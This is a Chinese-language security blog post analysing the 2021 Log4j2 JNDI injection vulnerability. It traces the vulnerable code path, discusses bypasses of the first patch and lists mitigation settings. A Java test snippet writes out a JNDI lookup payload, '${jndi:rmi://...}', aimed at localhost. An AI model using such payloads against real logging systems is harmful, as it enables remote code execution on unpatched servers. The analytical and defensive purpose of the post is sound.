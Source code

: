 ```yaml
---
title: log4j2 JNDI注入漏洞速通~
date: 2021-12-10 17:43:36
tags:
- log4j2
- jndi
- java
---
```


---

2021年12月9日，一场堪比永恒之蓝的灾难席卷了Java，Log4j2爆出了利用难度极低的JNDI注入漏洞，其漏洞利用难度之低令人叹为观止，基本可以比肩S2。

而和S2不一样的是，由于Log4j2 作为日志记录基础第三方库，被大量Java框架及应用使用，只要用到 Log4j2 进行日志输出且日志内容能被攻击者部分可控，即可能会受到漏洞攻击影响。因此，该漏洞也同时影响全球大量通用应用及组件，例如 ：
Apache Struts2
Apache Solr
Apache Druid
Apache Flink
Apache Flume
Apache Dubbo
Apache Kafka
Spring-boot-starter-log4j2
ElasticSearch
Jedis
Logstash
…

下面我们来一起看看漏洞原理
<!--more-->

# 漏洞分析

## 搭建环境

这里选用log4j-core 2.14.1版本，简单构造一个环境

```
package top.bigking.log4j2attack.service;


import lombok.extern.slf4j.Slf4j;

@Slf4j
public class HelloService {
    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        log.error("${jndi:rmi://127.0.0.1:1099/ruwsfb}");
    }
}

```

spring-boot 需要把原来的log关掉，加入log4j(这是一个普遍用法)

```
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter</artifactId>
    <exclusions><!-- 去掉springboot默认配置 -->
        <exclusion>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-logging</artifactId>
        </exclusion>
    </exclusions>
</dependency>

<dependency> <!-- 引入log4j2依赖 -->
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-log4j2</artifactId>
</dependency>
```

执行即可触发
![](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20211210173223.png)

# 代码分析

## 漏洞成因

这里我们正常跟error下去
![](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20211210173341.png)

首先可以看到这里经过了`isEnabled`的验证，这也是很多朋友info函数无法触发的原因，如果不满足配置，则log不会被记录。

这里一路跟到`MessagePatternConverter`的`format`函数
![](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20211210173351.png)

可以看到这次漏洞的入口，如果代码中存在`${`则会进入额外处理。继续跟下去到`StrSubstitutor`的`substitute`函数
![](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20211210173359.png)

这里就是漏洞发生的主要部分了，基本上是递归处理里面的语法内容，还有一些内置的语法

`prefixMatcher`是${
`suffixMatcher`是}

只有搜索到这两部分才会进入语法处理
![](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20211210173409.png)

括号中间的内容被传到varname

并进行两个内置的语法，其中

```
public static final String DEFAULT_VALUE_DELIMITER_STRING = ":-";
public static final StrMatcher DEFAULT_VALUE_DELIMITER = StrMatcher.stringMatcher(":-");
public static final String ESCAPE_DELIMITER_STRING = ":\\-";
public static final StrMatcher DEFAULT_VALUE_ESCAPE_DELIMITER = StrMatcher.stringMatcher(":\\-");
```

![](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20211210173420.png)

如果匹配到这两个语法，则varname会被修改为对应语法的对应部分（重要绕过）

经过处理的变量，会在418行进入`resolveVariable`函数
![](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20211210173431.png)

而`resolveVariable`这里则直接根据不同的协议进入相应的lookup，其中`jndi.lookup`就会导致漏洞
![](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20211210173439.png)

如果执行lookup有返回，则会进入427行的递归处理下一层
![](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20211210173446.png)

而lookup支持的协议也有很多种
![](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20211210173452.png)

包括`{date, java, marker, ctx, lower, upper, jndi, main, jvmrunargs, sys, env, log4j}`

如果能顺利的从这个流程走下来，就不难发现整个流程的逻辑问题其实有很多。

## 一些简单的绕过

前面我们是按照payload为`${jndi:rmi://127.0.0.1:1099/ruwsfb}`做分析和处理的。

但在代码中，有很多部分都阐述了这里是存在递归处理的，也就是说我们可以如果嵌套`${}`语法的方式来处理这里的返回。

比如说我们选取lower协议做返回，拼接进入代码中
![](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20211210173459.png)

同样可以执行

包括他内置的特殊语法
![](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20211210173505.png)

前半部分会被当做varname，后半部分会被返回替换原本的结果进入下一次拼接，如此一来又可以构造新的payload。

甚至官方在其中还加了容错代码，如果遇到不满足条件的字符，还会被直接删除。
![](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20211210173511.png)

由于一些特殊的规定，这里我就不公布相关的绕过payload，如果看得懂这部分代码的朋友一定可以很轻松的构造。

# 2.15.0 rc1 的修复

其实这个漏洞几天前就被发布了更新补丁，之前也关注到了，只是没想到利用的逻辑如此简单。

在整个漏洞掀起全安全圈的风暴时，越来越多的朋友将目光集中到这里。rc1的修复也迎来了绕过，这里的绕过其实还挺有意思的，我们一起来看看补丁。

修复补丁和测试样例又很有意思
![](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20211210173517.png)

简单来说，原本的修复逻辑处理处，想办法使他处理报错，那么原来的catch不会做处理，而是直接走进lookup
![](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/20211210173524.png)

:>

# 修复方案

1、目前Apache官方只发布了2.15.0 rc2并打包了2.15.0的release，没法保证不会被二次绕过，而且据说这个版本兼容度不是很高。
https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2

2、现在普遍的修复方案主要集中在配置修改上
在项目的 log4j2.component.properties 配置文件中添加配置：

```
log4j2.formatMsgNoLookups = true
```

要注意的是，这个配置只生效于2.10.0以上。

也可以在java的启动项中添加该配置

```
-Dlog4j2.formatMsgNoLookups=true
```

3、除此之外可能就要依赖各大WAF了

 

# 写在最后

其实这个漏洞在12月6号就更新补丁了，而且在推特传的很广，最开始看到第一反应是不可能有这么严重的问题，肯定是限制重重。结果利用根本就很简单，一下子席卷了整个java届的所有项目。

而作为一个基础组件，这个组件被大多数的java框架/java应用引用，大量的问题一下子被曝光出来。就在下班短短1个小时，payload就已经流传开了，要不是jndi到rce的利用不算简单，估计很多服务一晚上已经沦陷了。

由于厂商还没来得及发布修复后的release，导致这个漏洞初期只能通过waf防御，如果安全运营构建比较差的厂商，估计只能等死，这种感触不经历这样的大洞可能很难感受到吧。（360什么时候涨啊？

